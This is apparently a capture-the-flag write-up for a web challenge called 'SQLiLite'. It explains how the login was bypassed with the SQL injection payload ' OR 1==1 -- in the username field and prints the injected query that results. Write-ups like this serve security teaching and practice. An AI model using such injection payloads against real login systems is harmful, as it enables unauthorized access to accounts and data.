 # SQLiLite
Author: Tai

## Description
Author: Mubarak Mikail

Can you login to this website?

## Writeups

This challenge can be easily solved by using SQL injection
using this query on the username input form, the password box can type anything.

``` SQL
' OR 1==1 --
```

The query will become
```SQL
SQL query: SELECT * FROM users WHERE name='' OR 1==1 --' AND password='1'
```

Then we can successfully login and get the flag by go to the source page

![Alt text](image.png)
